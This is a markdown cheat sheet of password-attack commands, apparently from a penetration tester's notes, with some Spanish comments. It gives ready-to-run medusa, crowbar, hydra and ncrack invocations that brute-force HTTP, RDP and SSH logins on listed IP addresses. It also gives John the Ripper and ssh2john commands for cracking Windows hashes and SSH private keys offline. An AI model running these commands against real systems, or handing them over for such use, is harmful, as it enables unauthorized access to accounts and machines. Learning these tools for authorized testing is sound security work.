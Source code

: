 ## medusa
```
root@kali: medusa -h 192.168.31.219 -u admin -P password-file.txt -M http -m DIR:/admin -T 20
```


## crowbar (rdesktop)
for example for rdesktop
```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```

## hydra
* ej:  
```
  hydra –l (found_name) –P password.lst 192.168.168.168 ssh
  hydra -L username_list.txt -P password_list.txt 192.168.168.168 ssh -t 4
  -l user
  -L list of user
  -p password
  -P list of passwords
```

* **HTTP post form**
```
hydra -L <wordlist> -P<password list> <IP> http-post-form "<file path>:username=^USER^&password=^PASS^&Login=Login:<fail message>"
```

## ncrack

sirve mucho para romper rdp
```
   root@kali: ncrack -v -f --user administrator -P password-file.txt rdp://192.168.31.233,CL=1
```

# **5 Offline passwords attack**
---

## John the ripper

```
root@kali:~# john  hashes.txt

root@kali:~# john --format=nt windowshashes.txt --wordlist=passwords.txt
root@kali:~# john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256 password_list

```

## ssh keys bruteforce
```
2496  python /usr/share/john/ssh2john.py  matt_rsa  > matt.hash
2500  john --wordlist=rockyou.txt  ~/.ssh/matt.hash
```
